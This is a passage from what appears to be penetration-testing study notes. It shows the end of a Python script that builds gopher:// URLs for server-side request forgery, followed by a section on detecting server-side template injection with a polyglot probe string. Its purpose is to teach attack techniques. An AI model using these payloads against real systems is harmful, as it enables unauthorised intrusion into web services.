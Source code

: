 ```python
                break
        
        # Create the gopher URL
        gopher_url = f"gopher://{host}:80/_{gopher_content}"
        
        return gopher_url
    
    except FileNotFoundError:
        print(f"Error: File '{input_file}' not found.")
        sys.exit(1)
    except Exception as e:
        print(f"An error occurred: {str(e)}")
        sys.exit(1)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python gopher_converter.py <input_file>")
        sys.exit(1)
    
    input_file = sys.argv[1]
    gopher_url = transform_to_gopher(input_file)
    print(gopher_url)
```

## Server Side Template Injection
>**ℹ️ Info:**
>
>To check if SSTI injection is present, we can use the string `${{<%[%'"}}%\.` to see if an error arises.

To correctly identify what template we're working with we will follow the chart below:

![](attachments/SSTI_Identification.png)
If a payload works, we follow the green arrow, if it doesn't the red one.
